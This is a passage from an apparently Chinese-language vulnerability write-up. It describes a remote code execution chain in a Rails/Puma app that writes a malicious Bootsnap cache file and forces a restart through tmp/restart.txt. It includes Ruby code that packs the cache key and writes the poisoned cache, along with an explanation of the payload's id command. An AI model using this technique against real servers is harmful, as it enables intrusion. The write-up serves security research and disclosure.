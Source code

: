 ```
    pad:             "\0" * 15
  }
end
 
def write_binary_file(path, cache_key, binary_data)
  File.open(path, 'wb') do |file|
    file.write(pack_cache_key(cache_key))
    file.write(binary_data)
  end
end
 
def pack_cache_key(cache_key)
  [
    cache_key[:version],
    cache_key[:ruby_platform],
    cache_key[:compile_option],
    cache_key[:ruby_revision],
    cache_key[:size],
    cache_key[:mtime],
    cache_key[:data_size],
    cache_key[:digest],
    cache_key[:digest_set],
    *cache_key[:pad]
  ].pack('L4Q4C1a15')
end
 
evil_cache = generate_evil_cache(cache_path, ruby_info)
```  
  
  
在代码中，你可以看到文件的前 64 个字节由缓存键组成，里面填充了我们之前得到的信息，后面是编译后的恶意 Ruby 代码。请注意，我们使用的版本值为 6，因为这是 Bootsnap v1.18.4 [7] 的正确值。  
  
有效载荷首先执行命令id并将其输出重定向到stderr。此重定向只是为了在 Puma 服务器日志中显示命令的输出以供可视化。然后，为了避免无限递归，我们删除恶意缓存并加载原始set.rb文件，因此 Set 库将成功加载，从而防止应用程序崩溃。  
  
有了路径和内容，我们就利用漏洞来写入缓存文件。  
  
**重启应用程序**  
  
为了重启服务器，我们利用该漏洞在tmp/restart.txt中写入任何内容。这是 Puma 服务器 [4] 的一个功能，会导致重启。  
  
**远程代码执行**  
  
在服务器重启期间，当require 'set'运行语句时，我们的缓存文件就会被执行。  
  
**运行漏洞利用程序**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/rWGOWg48tac8ZXk0Vcf708TpgyhS2SLkh3o36jLTZqHKoENK0icwzBJhYsbGmnyZRoicpSbf8Q8LB407ibibzTax7A/640?wx_fmt=webp&from=appmsg "")  
  
**检查 Rails 应用程序的日志**  
  
![](https://mmbiz.qpic.cn/sz_mmbiz_jpg/rWGOWg48tac8ZXk0Vcf708TpgyhS2SLkI32xNtILiaVyW9eVhqvjHvOL90mLSJGCdPSIlfkVxAMiad39ZKic7XvwQ/640?wx_fmt=webp&from=appmsg "")  
  
在图片中我们可以看到两个文件上传，然后重新启动，然后执行命令的输出id。  
  